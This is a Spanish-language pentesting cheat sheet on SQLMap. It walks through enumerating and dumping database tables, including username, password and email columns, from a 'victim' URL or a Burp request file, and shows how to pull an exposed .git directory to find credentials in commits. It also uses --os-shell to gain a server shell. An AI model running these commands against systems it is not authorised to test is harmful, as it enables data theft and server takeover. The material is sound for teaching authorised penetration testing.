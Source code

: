 # SQL-Map 

Tags: #Tool #Web #Enumeracion #BurpSuite #SQLI #Git

**SQLMap** es una herramienta de pruebas de penetración de código abierto que se utiliza para detectar y explotar vulnerabilidades de inyección SQL en aplicaciones web. Esta herramienta se basa en un motor de inyección SQL altamente automatizado que puede detectar y explotar una amplia variedad de vulnerabilidades de inyección SQL en diferentes sistemas de gestión de bases de datos.

SQLMap se utiliza para probar la seguridad de aplicaciones web que utilizan bases de datos, identificando y aprovechando vulnerabilidades de inyección SQL. Para hacer esto, SQLMap realiza una exploración automatizada de la aplicación web, identifica las vulnerabilidades de inyección SQL y explota estas vulnerabilidades para extraer información de la base de datos. La información extraída puede incluir nombres de usuario, contraseñas y otra información confidencial que podría ser utilizada por un atacante malintencionado para comprometer la seguridad de la aplicación.

Al utilizar SQLMap, los profesionales de seguridad pueden identificar y corregir las vulnerabilidades de inyección SQL en sus aplicaciones web, lo que mejora significativamente la seguridad de estas aplicaciones. También pueden utilizar SQLMap para realizar pruebas de penetración en aplicaciones web de terceros y así evaluar su nivel de seguridad. En general, SQLMap es una herramienta valiosa para cualquier profesional de la seguridad que trabaja en pruebas de penetración de aplicaciones web y en la detección de vulnerabilidades de inyección SQL.

## SQLMap

## Primer Forma 

```bash 
❯ sqlmap -u 'http://site.com/index.php?id=1'    #Necesitamos pasarle la URL en donde se encuentra el index.php con el parametro 'id' existente. 
```

Cuando mires en una maquina victima el directorio **/.git/** quiere decir que es porque se ha clonado un directorio Git y eso puede suponer un riesgo porque si tiene capacidad de 'directory listing'  nos podemos traer los archivos a la maquina de atacante. 

```bash 
❯ wget -r http://192.168.68.11           # Nos descargarnos de forma recursiva el contenido del dir .git
❯ git log                                # Pueder ves los 'commits' y su descripcion de cada cambio 
❯ git show <id>                          # puedes ver el contenido de los commit y en algunos casos obtener el registro de credenciales 
```

```bash 
❯ sqlmap -u 'http://<IP Victima>' --dbs --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch  # Debemos de colocar la url hasta el parametro que se usa para modificar e inyectar el SQL.
	# dbs = Haremos que nos enumere las bases de datos, pero antes debemos de estar autenticados 
	# cookie = "usuario=valor" Colocar la Cookie de Sesion de la web que se encuentra en (Inspector > Storage > Value) o en Burp
	# dbms = Para indicarle que la base de datos es Mysql y asi evitar algunas preguntas (Esto si conocemos que base de datos esta corriendo) 
	# batch = Indicar que no queremos que nos este preguntando y solo nos muestre los resultados obtenidos

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch -D <DB-name> --tables
	# D = Colocar el nombre de la DB que hemos encontrado 
	# tables = Enumerar las tablas de la DB

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch -D <DB-name> -T <Table-name> --columns
	# columns = Enumerar las columnas 
	# T = Nombre de la tabla 

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --batch -D <DB-name> -T <Table-name> -C <username,password,email> --dump
	# C = Colocas las columnas que quieres dumpear
	# dump = Mostrar el contenido de las columnas username, password y email

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --dbms mysql --risk 3 --level 4   # Esto demora mas tiempo 
	# risk = Nivel de riesgo 
	# level = Nivel de profundidad

❯ sqlmap -u 'http://<IP Victima>' --cookie "PHPSESSID=8w7uf5n4yn4q7896578yb" --os-shell --batch     # Si el servidor interpreta PHP, tenemos permisos, podriamos ganar una consola interactiva 
```


## Segunda forma 

Podemos usar los archivos de BurpSuite para ingresarlos en la herramienta SQLMap y así nos diga que tipo de vulnerabilidades tiene, además de poder obtener datos a partir de ellas. Para este ejemplo usaremos **SQLI**.

```bash 
❯ sqlmap -r peticion.txt            # Obtenemos el archivo 'peticion.txt' copiando la intercepcion del Burpsuite 
```


```bash
❯ sqlmap -r example.req -p searchitem --batch

	# r = Archivo con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
```

```bash
❯ sqlmap -r example.req -p searchitem --batch --dbs

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# dbs = Me muestre todas las bases de datos existentes (Dumpear)
```

Una vez obtenidas las DBs podemos apuntar a las **tablas** de una base especifica

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining --tables

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# tables = Queremos que nos muestre las tablas de la DB que elegimos 
```

Una vez obtenidas las tablas, ahora vamos a querer que nos enumere las **columnas**

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users --columns

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# columns = Queremos que nos muestre las columnas de la DB que elegimos 
```

Una vez obtenidas las columnas podemos hacer que nos muestre **(Dumpear)** sus valores

```bash
❯ sqlmap -r example.req -p searchitem --batch -D sqltraining -T users -C username,password --dump

	# r = File con el contenido del Proxy de BurpSuite .req
	# p = El campo donde queremos que pruebe 
	# batch = Para que no nos muestre las preguntas y las salte
	# D = Le colocamos el nombre de la DB existente 
	# T = Le colocamos el nombre de la tabla existente 
	# C = Le colocamos el nombre de las columnas existente 
	# dump = Que nos muestre los valores que tienen esas columnas
```




